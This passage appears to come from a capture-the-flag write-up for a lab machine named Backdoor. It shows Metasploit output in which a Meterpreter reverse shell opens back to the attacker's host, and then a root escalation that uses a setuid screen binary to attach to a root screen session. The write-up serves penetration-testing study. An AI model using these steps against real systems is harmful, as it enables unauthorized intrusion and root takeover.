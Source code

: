 ```
[*] 10.129.199.225:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.129.199.225:1337 - Executing the payload...
[*] Sending stage (3012548 bytes) to 10.129.199.225
[*] Meterpreter session 1 opened (10.10.14.78:4444 -> 10.129.199.225:53046) at 2021-11-20 23:47:07 +0000

meterpreter > getuid
Server username: user
meterpreter > shell
Process 34472 created.
Channel 1 created.
wc -c /home/user/user.txt
33 /home/user/user.txt
```

# Root

We earlier saw in the processes that a while loop is running starting a new detached screen sessions as the root user. Checking the screen binary it has the suid bit set meaning be are probably able to attach to the session.

```
which screen
/usr/bin/screen
ls -la /usr/bin/screen
-rwsr-xr-x 1 root root 474280 Feb 23  2021 /usr/bin/screen
```

First we spawn a terminal device using python. Then we attach to the session following the naming convention username/sessionname. This drops us in a  screen session as the root user and we can read the flag.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
user@Backdoor:~$ export TERM=xterm
export TERM=xterm
user@Backdoor:~$ screen -r root/root
screen -r root/root
root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Backdoor:~# wc -wc /root/root.txt
wc -wc /root/root.txt
 1 33 /root/root.txt
```